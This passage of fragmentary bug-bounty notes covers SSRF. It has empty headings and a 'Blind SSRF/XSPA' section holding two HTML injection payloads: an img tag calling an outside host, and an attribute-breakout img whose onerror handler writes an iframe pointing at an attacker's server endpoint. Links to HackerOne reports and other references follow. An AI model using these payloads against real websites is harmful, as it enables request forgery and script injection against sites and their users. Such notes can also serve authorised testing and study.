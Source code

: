### SSRF:


## Bind SSRF:


## Blind SSRF/XSPA:
For this vulnerability:
```
<img src="https://burp.net"></img>
"><img src="xasdasdasd" onerror="document.write('<iframe src=your server end point></iframe>')" />
```
https://hackerone.com/reports/517461
https://www.youtube.com/watch?v=MAKNAf1DJ0c
https://twitter.com/naman_1910/status/1346372557532848128
https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPSSRF.md
